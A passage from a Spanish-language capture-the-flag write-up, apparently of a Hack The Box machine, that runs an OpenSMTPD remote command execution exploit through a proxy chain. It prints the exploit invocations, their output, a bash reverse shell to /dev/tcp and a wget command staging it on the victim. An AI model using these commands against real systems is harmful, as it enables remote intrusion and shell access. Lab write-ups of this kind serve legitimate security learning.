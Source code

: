 modificando el exploit para enviarle el correo a un usuario existente de la siguiente manera

```python
[...]
print('[*] Payload sent')
s.send(b'RCPT TO:<j.nakazawa@realcorp.htb>\r\n')
s.recv(1024)
[...]
```

y al realizar nuevamente una prueba vemos que tenemos ejecución de comandos remota

```console
proxychains python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.3'
```

```
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.10.10.224:3128-<>-127.0.0.1:3128-<>-10.197.243.77:3128-<><>-10.241.251.113:25-<><>-OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

```console
sudo python3 -m http.server 80
```

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.224 - - [29/Aug/2022 16:36:18] "GET / HTTP/1.1" 200 -
```

creamos un index.html para descargarlo en la maquina victima con el siguiente contenido:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

realizamos una descarga desde la maquina victima

```console
python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.3 -O /dev/shm/rev'
```

```
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.10.10.224:3128-<>-127.0.0.1:3128-<>-10.197.243.77:3128-<><>-10.241.251.113:25-<><>-OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

```console
sudo python3 -m http.server 80
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>
